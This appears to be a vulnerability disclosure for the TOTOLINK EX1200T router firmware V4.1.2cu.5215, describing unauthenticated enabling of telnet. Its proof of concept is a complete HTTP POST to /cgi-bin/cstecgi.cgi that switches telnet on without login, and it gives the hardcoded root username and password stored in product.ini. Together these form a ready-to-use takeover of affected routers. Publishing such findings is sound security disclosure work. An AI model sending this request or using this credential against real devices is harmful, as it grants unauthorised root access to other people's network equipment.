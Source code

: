 # TOTOLINK EX1200T TELNET

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can start telnet without authorization, the default username and password exists in the firmware.

![image-20211021175729211](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175729211.png)

## PoC

Telnet is enabled by sending the following POST packet .

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setTelnetCfg","telnet_enabled":"1"}
```

The default account password exists in the file `product.ini`：root:cs2012

![image-20211021175704482](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175704482.png)



![image-20211021175519172](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175519172.png)

